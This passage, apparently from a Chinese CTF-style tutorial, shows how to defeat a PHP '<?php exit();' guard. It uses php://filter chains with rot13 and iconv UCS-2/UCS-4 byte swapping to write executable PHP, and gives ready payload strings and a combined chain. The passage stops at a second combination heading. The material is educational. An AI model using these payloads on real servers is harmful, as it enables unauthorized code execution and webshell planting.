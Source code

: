 ```
$a = php://filter/write=string.rot13|<?cuc cucvasb();?>|/resource=Cyc1e.php
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOeDRDemYwl5tf2F20VCBOmNcX7OMcSj1rvoGRfQPQWxLP9LbmiaicE13ribUpsycGBiafibJ7Cye1aVgzA/640?wx_fmt=png)

和前面提到的一样，这种方法是需要服务器没有开启短标签的时候才可以使用（默认情况是没开启的：php.ini 中的 short_open_tag（再补充一下，linux 下默认是没有开启的））

**0x03 iconv 字符编码转换**
---------------------

这种方法由于之前没有见过，所以感觉这波操作比我的亚索还要秀~，想法是一样的，通过字符转换把`<?php exit();`转成不能解析的，这里采用的是 UCS-2 或者 UCS-4 编码方式（当然还有很多，比如 utf-8 和 utf-7），而我们构造的转成可正常解析的。👇

```
#echo iconv("UCS-2LE","UCS-2BE",'<?php phpinfo();?>');
?<hp phpipfn(o;)>?
```

这里用的是 UCS-2，当然我们也可以用 UCS-4👇

```
echo iconv("UCS-4LE","UCS-4BE",'aa<?php phpinfo();?>');
?<aa phpiphp(ofn>?;)
```

通过 UCS-2 或者 UCS-4 的方式，对目标字符串进行 2/4 位一反转，也就是说构造的需要是 UCS-2 或 UCS-4 中 2 或者 4 的倍数，不然不能进行反转，那我们就可以利用这种过滤器进行编码转换绕过了，构造 payload👇

```
$a='php://filter//convert.iconv.UCS-2LE.UCS-2BE|?<hp phpipfn(o;)>?/resource=Cyc1e.php';
**or**
$a='php://filter//convert.iconv.UCS-4LE.UCS-4BE|xxx?<aa phpiphp(ofn>?;)/resource=Cyc1e.php';
#由于是4位一反转，所以需要保证?<aa phpiphp(ofn>?;)之前字符个数是4的倍数，所以需要补3个字符
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOeDRDemYwl5tf2F20VCBOmNBgqPuvp8xGfHGBNeJMVmQJ1DblJHU4vZ4kEIgPxWRIb7ZZb8y7kmXw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOeDRDemYwl5tf2F20VCBOmNXV4eX6qoSJicxf7XrEGaJ3Pwf3LRibP9iaBsy8FicqeAnjZY7u75mhpZcg/640?wx_fmt=png)

当然这种方法对于前后不同变量也是一样适用的~

**0x04 组合拳**
------------

### 第一套连招

和前后不同的变量的利用一样，相同变量一样可以使用组合拳，这里就用 UCS-2 和 rot13 举一个例子吧，知道可以这样的意思👇

```
#同样需要补位，这里补了一个x
$a = 'php://filter/write=convert.iconv.UCS-2LE.UCS-2BE|string.rot13|x?<uc cucvcsa(b;)>?/resource=Cyc1e.php';
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOeDRDemYwl5tf2F20VCBOmNIGldicVGHLWeKSkZxp9JIQRsGhKqHqPlpXJqzVVXxElbolia7H8WNAIg/640?wx_fmt=png)

### 第二套连招
